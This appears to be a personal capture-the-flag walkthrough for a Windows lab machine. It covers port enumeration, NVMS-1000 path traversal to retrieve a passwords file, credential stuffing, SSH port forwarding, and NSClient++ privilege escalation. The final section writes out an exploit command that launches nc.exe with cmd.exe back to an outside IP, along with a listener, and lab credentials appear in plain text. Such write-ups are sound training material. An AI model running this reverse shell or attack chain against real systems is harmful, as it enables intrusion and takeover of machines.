 # Enumeration
---
## Open Ports
```
PORT      STATE SERVICE      REASON
21/tcp    open  ftp          syn-ack ttl 127
22/tcp    open  ssh          syn-ack ttl 127
80/tcp    open  http         syn-ack ttl 127
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
5666/tcp  open  nrpe         syn-ack ttl 127
6063/tcp  open  x11          syn-ack ttl 127
6699/tcp  open  napster      syn-ack ttl 127
8443/tcp  open  https-alt    syn-ack ttl 127
49664/tcp open  unknown      syn-ack ttl 127
49665/tcp open  unknown      syn-ack ttl 127
49666/tcp open  unknown      syn-ack ttl 127
49667/tcp open  unknown      syn-ack ttl 127
49668/tcp open  unknown      syn-ack ttl 127
49669/tcp open  unknown      syn-ack ttl 127
49670/tcp open  unknown      syn-ack ttl 127
```

## Port 21 - FTP (Anon access)
---
- ![[Pasted image 20250731065239.png]]

## Port 80 - HTTP
---
**NVMS- 1000**
![[Pasted image 20250731070316.png]]
- Search for vulnerabilities to find **Path Traversal**
- https://www.rapid7.com/db/modules/auxiliary/scanner/http/tvt_nvms_traversal/
- Set file to download to **Nathan's Desktop/passwords.txt** 
	- ![[Pasted image 20250731070428.png]]
- ![[Pasted image 20250731070435.png]]

# Credential Stuffing
---
- Trying the passwords list on both the users **using netexec**:
	- ![[Pasted image 20250731071133.png]]
	- 
- `Nadine` : `L1k3B1gBut7s@W0rk`

# Gaining Access
## Port 22 - SSH
- Use credentials obtained on all the services and on SSH, it worked:
	- `ssh nadine@10.10.10.184`
		- `L1k3B1gBut7s@W0rk`
	- ![[Pasted image 20250731071653.png]]
# Getting Administrator Password for NsClient++
---
- Read the file `nsclient.ini` in `C:/Windows/nsclient++/`
- Admin password: `ew2x6SsGTxjRwXOT`
- Only allows `127.0.0.1` as allowed host, so **we port forward using SSH**:
	- `ssh nadine@10.10.10.184 -L 8443:127.0.0.1:8443 `

# Getting Root Shell
----
- Search for PrivEsc vulns in NsClient++
- `https://www.exploit-db.com/exploits/46802`
- Use this to gain admin shell: https://github.com/xtizi/NSClient-0.5.2.35---Privilege-Escalation/blob/master/README.md
	- `python3 exploit.py "C:\\Users\\Nadine\Desktop\nc.exe 10.10.16.6 443 -e cmd.exe" https://127.0.0.1:8443 ew2x6SsGTxjRwXOT`
	- `nc -lnvp 443`